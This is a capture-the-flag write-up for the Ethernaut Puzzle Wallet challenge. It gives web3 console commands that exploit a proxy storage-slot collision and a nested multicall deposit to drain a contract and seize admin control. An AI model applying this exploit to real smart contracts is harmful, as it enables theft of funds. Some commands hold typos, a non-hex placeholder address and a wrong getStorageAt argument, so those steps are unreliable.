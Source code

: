 # Solution to challenge 24 : Puzzle Wallet

Our goal here is to claim ownership of the PuzzleProxy contract. First we need to understand the Proxy structure of the challenge, the slot arrangement in both contracts should be the same because the slots are mapped. 

As a result, when the proxy contract makes a call to the implementation contract, the proxy's storage variables are modified and the call is made in the context of the proxy.

```
SLOT    PuzzleProxy   |  PuzzleWallet
----------------------------------------------------------------------------------
0       pendingAdmin     owner

1       admin            maxBalance
```        

This means that if we change the value of `pendingAdmin` in ``PuzzleProxy`` contract , the `owner` value will be changed in `PuzzleWallet` contract.

So let's think about our objective : change `admin` value in `PuzzleProxy` to player's address, there is no way to change it through ``PuzzleProxy``, so let's aim at changing `maxBalance` value which shares the "same storage slot".

### There are 2 ways to alter this value :

1. `init()` function : not exploitable because it **has already been initialized**
2. `setMaxBalance()` function : exploitable but we need the contract's balance to be equal to zero

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet1.png)

Unfortunately, by default the contract's balance is equal to `0.001 ether` :

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet2.png)

We can reduce its balance through `execute()` function which is equivalent to a withdraw function :

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet3.png)

Sadly the contract keeps track of what we deposited, that's why we will need to use the last and most complex function available : `multicall()` 

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet4.png)

This function allows us to execute multiple functions in 1 transaction. Thus, we can abuse of the fact that even if ETH is spent, `msg.value` will remain the same and take the opportunity to make a double call to the `deposit` function. The developers were aware of this exploitable issue and made a protection by checking the **selector** (first 4 bytes of the function signature).

But we can bypass this protection if we **"pack"** one deposit inside another `multicall`

## Let's sum up all the actions required together, we will only use web3 js commands :

### 1. Claim ownership of `PuzzleWallet` contract by changing `pendingAdmin` value to the player's address

We first calculate the signature of the `proposeNewAdmin` function :

```
web3.eth.abi.encodeFunctionSignature("proposeNewAdmin(address)");
'0xa6376746'
```

Then the signature of the parameter `address` with player's address : 

```
web3.eth.abi.encodeParameter("address", player);
'0x000000000000000000000000cabcdefghijkl123456123451234567123456789'
```

We put them together and send this transaction data :

```
contract.sendTransaction({ data: '0xa6376746000000000000000000000000cabcdefghijkl123456123451234567123456789' });
```

After that, the `owner`'s  value of `PuzzleWallet` is now your player's address.

### 2. Add our player's address to the whitelist in order to interact with the different functions

```
contract.addToWhitelist(player);
```

### 3. Prepare the data bytes required for the  ``multicall`` and `deposit` exploit, do not forget to include the parameters expected by the functions

``deposit()`` function signature :

```
deposit = web3.eth.abi.encodeFunctionSignature("deposit()");
'0xd0e30db0'
```

`multicall(bytes[])` function signature :

```
multicall = eb3.eth.abi.encodeFunctionSignature("multicall(bytes[])");
'0xac9650d8'
```

Signature of the `deposit` call as a  `multicall` parameter :

```
web3.eth.abi.encodeParameter('bytes[]', [deposit]);
'0x0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000';
```

Again, we add the `deposit` function signature  :

```
packedDeposit = '0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000';
```

### 4. Call `multicall` function with the prepared data bytes with a msg of at least ``0.001 ether``

```
contract.multicall([deposit, packedDeposit], { value: toWei('0.001') });
```

### 5. As a result, the contract has now a balance equal to `0.002 ether`, we called twice the deposit function and increased our "available balance" while only depositing `0.001 ether`

```
(await getBalance(instance)).toString();
'0.002'
```

### 6. We can now withdraw `0.002 ether` from the contract using `execute` function and make the contract's balance empty

```
contract.execute(player, toWei('0.002'), '123');
```

### 7. All the protections are now gone, we can now change `maxBalance` value to finally become the owner of the `PuzzleProxy` contract

```
contract.setMaxBalance('1116821831790595974849218070050646934865281521986');
```


## BONUS : Retrieve the address of the proxy's contract

Once we get our game instance, we only know the `PuzzleWallet` 's contract address. 

But according to **EIP-1967** : To avoid clashes in storage usage between the proxy and logic contract, the address of the logic contract is typically saved in a specific storage slot guaranteed to be never allocated by a compiler.

For OpenZeppelin's contracts it is at slot ``0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc``

As a result, we can get our address by getting the data at this specific storage slot :

`web3.eth.getStorageAt(instance,"0xcabcdefghijkl123456123451234567123456789")`

Source : https://eips.ethereum.org/EIPS/eip-1967
